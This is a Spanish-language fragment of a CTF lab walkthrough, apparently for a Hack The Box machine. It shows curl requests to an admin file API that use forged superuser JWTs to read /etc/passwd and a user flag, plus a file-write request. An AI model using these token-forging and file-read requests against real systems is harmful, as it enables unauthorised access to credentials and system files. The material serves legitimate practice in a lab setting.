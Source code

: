 ```bash
curl -X 'GET' \
  'http://10.10.11.162/api/v1/admin/file/L2V0Yy9wYXNzd2Q%3D' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU1Mjc3OTkzLCJpYXQiOjE2NTQ1ODY3OTMsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllN2Y3ZDUtZjFkMy00NjM4LWEzNGQtNWU4MTUyNDU0ZjE0In0.hSsQU4-nxMGfCj2EdyuF7c_W5jIUeaON8-WdblCoKYg'
```
🔥NEW🔥Importante🔥NEW🔥🔥NEW🔥Importante🔥NEW🔥

Ver el script 5-scripts / getFile.sh

## Usando el script getFile
Usando el script GetFile vemos los que terminan en sh
```bash
sudo ./getFile.sh -f /etc/passwd | grep "sh$"
[sudo] contraseña para riskoo: 
root:x:0:0:root:/root:/bin/bash
htb:x:1000:1000:htb:/home/htb:/bin/bash
```
Ahora podriamos ver la flag al ver el usuario htb y el directorio /home/htb

```bash
❯ sudo ./getFile.sh -f /home/htb/user.txt
fb89a1a550ae42f603bbee5904b1f409


 el nombre del archivo es: /home/htb/user.txt
```

## json webtoken

Lo que queremos es obtener la palabra clave necesaria para construir nuestro token como administrador y entrar teniendo el control completo

Para ello vamos a ir investigando archivos y siguiendo la traza


🔥Importante🔥 Mirar como se obtiene el token dentro de una vez dentro de linux.md

Ahora tenemos un token que es administrador 

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU1Mjc3OTkzLCJpYXQiOjE2NTQ1ODY3OTMsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllN2Y3ZDUtZjFkMy00NjM4LWEzNGQtNWU4MTUyNDU0ZjE0IiwiZGVidWciOnRydWV9.SaE7rWih1omJ5dVYpVRQxrrvcd9ro8NxwtrHby4_9z4

## vamos a escribir en la máquina un archivo 

En la web vimos que hay una zona de escritura que la petición que hace es

```bash
curl -X 'POST' \
  'http://10.10.11.162/api/v1/admin/file/L2V0Yy9wYXNzd2Q%3D' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU1Mjc3OTkzLCJpYXQiOjE2NTQ1ODY3OTMsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllN2Y3ZDUtZjFkMy00NjM4LWEzNGQtNWU4MTUyNDU0ZjE0In0.hSsQU4-nxMGfCj2EdyuF7c_W5jIUeaON8-WdblCoKYg' \
  -H 'Content-Type: application/json' \
  -d '{
  "file": "hola chavalito"
}'
```
